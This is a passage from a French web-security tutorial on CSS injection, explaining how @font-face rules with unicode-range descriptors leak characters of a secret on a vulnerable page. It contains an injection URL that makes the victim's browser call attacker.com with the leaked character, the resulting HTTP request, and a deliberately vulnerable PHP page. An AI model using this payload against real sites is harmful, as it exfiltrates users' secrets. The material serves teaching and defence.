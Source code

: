 <figure><img src="../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Il y a donc bien un "s" dans le secret de la victime. L'attaquant peut ainsi continuer d'exfiltrer les autres caractères présents dans le secret :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=3);unicode-range:U%2b0033;}span{font-family:attack;}
```
{% endcode %}

{% code overflow="wrap" %}
```http
GET /?leak=3 HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption></figcaption></figure>

Malheureusement, cette technique possède plusieurs limitations : il n'est pas possible de connaitre les caractères dupliqués (plusieurs caractères "3" dans l'exemple ci-dessus) ni l'ordre d'apparition de ces caractères.

### Récupération en fonction de l'id

Dans l'exemple précédent, tous les éléments `<span></span>` seront analysés, il sera difficile pour l'attaquant d'identifier quel caractère provient de quel élément de la page vulnérable. Pour contourner cela, il est possible de cibler un attribut `id` :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
     h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Injection CSS - récupération de la valeur d'un élément HTML par son id via @font-face et descripteur unicode</h1>
    <span id="secret">s3cr3t</span>
  </body>
```